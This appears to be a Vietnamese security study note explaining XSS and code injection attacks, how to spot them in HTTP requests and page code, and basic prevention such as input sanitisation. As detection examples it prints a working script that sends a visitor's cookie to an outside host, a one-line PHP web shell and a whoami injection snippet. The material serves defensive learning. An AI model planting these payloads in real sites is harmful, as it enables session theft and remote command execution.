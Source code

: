 - **XSS** là một kỹ thuật tấn công trong đó kẻ tấn công chèn mã độc hại (thường là JavaScript) vào một trang web thông qua các đầu vào của người dùng (ví dụ: bình luận, biểu mẫu).
- Khi người dùng khác truy cập trang web này, trình duyệt của họ sẽ thực thi mã độc hại, cho phép kẻ tấn công:
    - Đánh cắp cookie, token, hoặc thông tin phiên (session).
    - Thực hiện các hành động thay mặt người dùng.
    - Chuyển hướng người dùng đến các trang web độc hại.

---

### **Cách phát hiện tấn công XSS**

1. **Phân tích các yêu cầu HTTP**:
    
    - Nếu chúng ta nhận thấy một lượng lớn yêu cầu HTTP được gửi đến một máy chủ nội bộ không xác định, đây có thể là dấu hiệu của XSS.
    - Example: Các yêu cầu chứa dữ liệu như cookie hoặc token được mã hóa hoặc không rõ ràng.
    
    ![](../../Image/image%2018.png)
    
2. **Kiểm tra mã độc hại**:
    - Kẻ tấn công có thể chèn mã JavaScript vào các phần của trang web.
        
        ```JavaScript
        <script>
          window.addEventListener("load", function() {
            const url = "http://192.168.0.19:5555";
            const params = "cookie=" + encodeURIComponent(document.cookie);
            const request = new XMLHttpRequest();
            request.open("GET", url + "?" + params);
            request.send();
          });
        </script>
        ```
        
	-  Mã này sẽ gửi cookie của người dùng đến một máy chủ do kẻ tấn công kiểm soát.
3. **Phát hiện mã độc hại trong đầu vào người dùng**:
    - Kẻ tấn công có thể chèn mã PHP hoặc các lệnh hệ thống để thực thi các hành động độc hại.
        
        ```Plain
        <?php system($_GET['cmd']); ?>
        ```
        
        - Mã này cho phép kẻ tấn công thực thi các lệnh hệ thống thông qua tham số `cmd`.
        
        ```Plain
        <?php echo `whoami`; ?>
        ```
        
        - Mã này sẽ trả về tên người dùng hiện tại trên máy chủ.

---

### **Cách phòng chống tấn công XSS và Code Injection**

1. **Sanitize User Input**:
    - Luôn kiểm tra và làm sạch dữ liệu đầu vào từ người dùng để đảm bảo chúng không chứa mã độc hại.
    - Ví dụ: Loại bỏ hoặc mã hóa các ký tự đặc biệt như `<`, `>`, `&`, `"`, `'`.
2. **Không diễn giải đầu vào người dùng như mã**:
    - Không bao giờ xử lý đầu vào người dùng như mã thực thi (ví dụ: JavaScript, PHP).